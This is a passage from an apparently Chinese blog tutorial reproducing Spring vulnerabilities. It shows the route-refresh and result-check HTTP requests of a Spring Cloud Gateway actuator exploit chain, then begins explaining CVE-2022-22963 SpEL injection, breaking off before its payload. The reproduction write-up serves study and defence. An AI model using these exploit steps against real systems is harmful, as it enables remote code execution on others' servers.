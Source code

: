 

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0



```

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/80f848d97d8543208f6de080da0d41fd.png)
3\.查看执行结果



```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0



```

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/9e32bc222ced499fb32579b286b978a7.png)


## Spring Cloud Function SpEL表达式命令注入(CVE\-2022\-22963\)


* 漏洞原理
SpringCloud Function 中的functionRouter支持SpEL，跟进代码发现最后是StandardEvaluationContext 对header的值进行SpEL表达式解析。
根本原因就是也就是说在框架中可以直接添加header值，改成能够执行SpEL的spring.cloud.function.routing\-expression豆子，其值写入SpEL代码，代码中最终会判断spring.cloud.function.routing\-expression不为空，将其值传入functionFromExpression，最终解析了SpEL。
* 影响版本
springcloud Function3\.0以上版本
* 漏洞复现
开启容器后，先确认不存在/tmp/success文件
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/ff4c9a00a4e54daeaf195c5a75fb8cf0.png)
发送数据包

